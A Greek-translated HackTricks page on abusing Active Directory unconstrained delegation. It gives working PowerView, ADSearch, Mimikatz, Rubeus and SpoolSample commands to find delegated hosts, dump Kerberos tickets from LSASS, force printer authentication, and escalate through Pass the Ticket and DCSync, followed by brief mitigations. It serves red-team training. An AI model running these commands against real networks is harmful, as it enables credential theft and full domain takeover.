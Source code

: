 # Unconstrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Unconstrained delegation

Αυτή είναι μια δυνατότητα που μπορεί να ρυθμίσει ένας Διαχειριστής Τομέα σε οποιονδήποτε **Υπολογιστή** μέσα στον τομέα. Έτσι, κάθε φορά που ένας **χρήστης συνδέεται** στον Υπολογιστή, ένα **αντίγραφο του TGT** αυτού του χρήστη θα **σταλεί μέσα στο TGS** που παρέχεται από τον DC **και θα αποθηκευτεί στη μνήμη στο LSASS**. Έτσι, αν έχετε δικαιώματα Διαχειριστή στη μηχανή, θα μπορείτε να **dump τα εισιτήρια και να προσποιηθείτε τους χρήστες** σε οποιαδήποτε μηχανή.

Έτσι, αν ένας διαχειριστής τομέα συνδεθεί σε έναν Υπολογιστή με ενεργοποιημένη τη δυνατότητα "Unconstrained Delegation", και έχετε τοπικά δικαιώματα διαχειριστή σε αυτή τη μηχανή, θα μπορείτε να dump το εισιτήριο και να προσποιηθείτε τον Διαχειριστή Τομέα οπουδήποτε (domain privesc).

Μπορείτε να **βρείτε αντικείμενα Υπολογιστή με αυτό το χαρακτηριστικό** ελέγχοντας αν το [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) χαρακτηριστικό περιέχει [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx). Μπορείτε να το κάνετε αυτό με ένα φίλτρο LDAP του ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, το οποίο είναι αυτό που κάνει το powerview:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Check every 10s for new TGTs</code></pre>

Φορτώστε το εισιτήριο του Διαχειριστή (ή του θύματος χρήστη) στη μνήμη με **Mimikatz** ή **Rubeus για ένα** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Περισσότερες πληροφορίες: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Περισσότερες πληροφορίες σχετικά με την Unconstrained delegation στο ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

Αν ένας επιτιθέμενος είναι σε θέση να **συμβιβάσει έναν υπολογιστή που επιτρέπεται για "Unconstrained Delegation"**, θα μπορούσε να **παραπλανήσει** έναν **Print server** να **συνδεθεί αυτόματα** σε αυτόν **αποθηκεύοντας ένα TGT** στη μνήμη του διακομιστή.\
Έτσι, ο επιτιθέμενος θα μπορούσε να εκτελέσει μια **επίθεση Pass the Ticket για να προσποιηθεί** τον λογαριασμό υπολογιστή του Print server.

Για να κάνετε έναν εκτυπωτή server να συνδεθεί σε οποιαδήποτε μηχανή μπορείτε να χρησιμοποιήσετε [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Αν το TGT προέρχεται από έναν ελεγκτή τομέα, μπορείτε να εκτελέσετε μια[ **DCSync attack**](acl-persistence-abuse/#dcsync) και να αποκτήσετε όλους τους κατακερματισμούς από τον DC.\
[**Περισσότερες πληροφορίες σχετικά με αυτήν την επίθεση στο ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Ακολουθούν άλλοι τρόποι για να προσπαθήσετε να επιβάλετε μια αυθεντικοποίηση:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### Mitigation

* Περιορίστε τις συνδέσεις DA/Admin σε συγκεκριμένες υπηρεσίες
* Ορίστε "Ο λογαριασμός είναι ευαίσθητος και δεν μπορεί να ανατεθεί" για προνομιακούς λογαριασμούς.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

